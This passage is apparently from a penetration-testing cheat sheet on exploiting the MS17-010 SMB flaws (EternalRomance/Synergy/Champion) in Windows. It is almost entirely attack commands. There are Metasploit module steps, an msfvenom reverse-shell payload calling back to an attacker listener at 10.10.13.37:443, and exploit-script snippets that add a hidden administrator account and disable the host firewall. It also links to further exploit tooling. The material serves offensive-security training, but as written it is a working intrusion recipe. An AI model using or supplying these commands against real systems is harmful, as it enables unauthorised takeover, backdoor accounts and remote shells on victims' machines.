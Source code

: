 
#### EternalRomance / EternalSynergy / EternalChampion

Exploit with `ms17_010_psexec`:

```
msf > use exploit/windows/smb/ms17_010_psexec
msf > set RHOSTS file:smb.txt
msf > set LHOST eth0
msf > set LPORT 1337
msf > run
```

Exploit with `ms17_010_command`:

```
msf > use auxiliary/admin/smb/ms17_010_command
msf > set RHOSTS file:smb.txt
msf > set COMMAND "net user snovvcrash Passw0rd! /add && net localgroup administrators snovvcrash /add"
msf > run
```



### Manually

* [https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010)
* [https://github.com/jdiazmx/MS17-010_WORAWIT](https://github.com/jdiazmx/MS17-010_WORAWIT)
* [https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010](https://0xdf.gitlab.io/2019/02/21/htb-legacy.html#ms-17-010)

Send MSF payload and execute it with `send_and_execute.py`:

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o rev.exe
$ python send_and_execute.py 10.10.13.38 rev.exe
```

Or just execute commands on host via `zzz_exploit.py` (at least one named pipe must be accessible on target):

```
$ python zzz_exploit.py 192.168.1.11
```

{% code title="zzz_exploit.py" %}
```python
# ...
def smb_pwn(conn, arch):
	service_exec(conn, r'cmd /c net user snovvcrash Passw0rd! /add && cmd /c net localgroup administrators snovvcrash /add && cmd /c netsh firewall set opmode disable')
# ...
```
{% endcode %}

{% hint style="hint" %}
For x86 EternalBlue shellcodes use [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010).
{% endhint %}
